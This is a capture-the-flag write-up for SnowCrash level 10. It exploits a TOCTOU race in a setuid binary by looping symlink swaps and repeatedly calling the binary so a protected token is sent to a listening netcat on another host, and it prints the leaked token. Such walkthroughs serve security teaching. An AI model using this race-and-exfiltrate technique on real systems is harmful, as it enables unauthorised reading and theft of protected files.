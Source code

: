 # Level10

## Exploring the exercice

```bash 
$ ls -la
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

We have a binary setuid and a token file with no rights for us. 

## Inspecting the files

```bash 
$ ./level10 
./level10 file host
        sends file to host if you have access to it
```

The program seems to send a file to an address. 

```bash 
$ ./level10 token coucou
You don't have access to token
```

Okay let's ty with a file that we create

```bash 
$ echo 'salut' > /tmp/salut.txt
$ ./level10 /tmp/salut.txt level10
Connecting to level10:6969 .. Unable to connect to host level10
```

Okay no rights issue if it is our file. Let's look at the program with strings.

```bash 
$  strings ./level10 
[...]
open
access
[...]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
;*2$"
```

The executable checks if we have the rights to read the file with the access function then tries to send it to a server and display its content but we do not have the necessary rights on the token file.


We learned more about 'access' and discovered the existence of  <a href='https://www.vpnunlimited.com/fr/help/cybersecurity/toctou-attack?srsltid=AfmBOoqehRSAC5_nVvLKZinLmwohL_LoSgNh-VZIJcej7_UG0dA6EeZg'>TOCTOU attacks</a>, wich is pretty well explained in the manual. It is exactly like race conditions in philosphers. 


```bash 
NOTES
Warning:  Using  access()  to  check  if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to  manipulate  it.   For  this reason,  the use of this system call should be avoided.
```

What we want to do is that the access happens on a file where we have the rights and the open on the token.
To do so we will create in a loop a file, delete it and create a symbolic link to token. 

```bash 
$ cat symlink.sh
#!/bin/bash

while true; do
        touch /tmp/link
        rm -f /tmp/link
        ln -s /home/user/level10/token /tmp/link
        rm -f /tmp/link
done
```

Now in another program we will execute level10 excutable in a loop wih our file /tmp/link as an argument hoping that when the open is called it happens on the token. 


```bash 
$ cd /tmp
$ touch spam.sh
$ cat spam.sh
#!/bin/bash

while true; do
    /home/user/level10/level10 /tmp/link 192.168.1.75
done
```

We launch both our scripts in terminals and we listen to the port 6969 (like we saw with strings that is where the output of level10 will be). 

```bash 
$ nc -lk 6969
[...]
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
^C
```

## Getting the flag

```bash
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : ********
````


